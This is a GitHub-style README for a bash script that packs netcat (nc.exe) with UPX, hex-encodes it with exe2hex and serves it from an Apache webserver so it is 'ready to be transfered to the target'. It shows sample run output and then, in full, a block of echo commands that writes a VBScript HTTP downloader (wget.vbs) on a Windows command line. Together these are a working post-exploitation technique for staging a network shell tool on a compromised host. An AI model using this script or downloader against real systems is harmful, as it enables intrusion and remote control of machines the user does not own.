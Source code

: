 # netcat_for_windows
A small bash script that creates an executable version of netcat for Windows.

This script starts an apache2 webserver, clones nc.exe, converts the clone to hex and moves file to /var/www/html ready to be downloaded for use via the webserver. 

## Usage
This script was written to help send a Windows compatible netcat and make it accessible to be downloaded via the webserver. 

`./necat2hex4ft.sh`

```######################################################################
   This script starts an Apache2 server, clones nc.exe, converts it
             into hex and adds to /var/www/html file
######################################################################
Do you want to continue? y/n: y
                      Apache2 Server Started...
######################################################################
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     59392 ->     29696   50.00%    win32/pe     nc.exe                        

Packed 1 file.
[*] exe2hex v1.5.1
[+] Successfully wrote (PoSh) /home/parallels/Tools/nc.cmd
nc.cmd
######################################################################
Success! /var/www/html/nc.cmd is ready to be transfered to the target! 
######################################################################```


You may need to create a HTTP Downloader which can be done by copying and pasting the following code and pasting it to the Windows CLI:
```echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo  Err.Clear >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo  http.Open "GET", strURL, False >> wget.vbs
echo  http.Send >> wget.vbs
echo  varByteArray = http.ResponseBody >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo  strData = "" >> wget.vbs
echo  strBuffer = "" >> wget.vbs
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo  Next >> wget.vbs
echo  ts.Close >> wget.vbs```
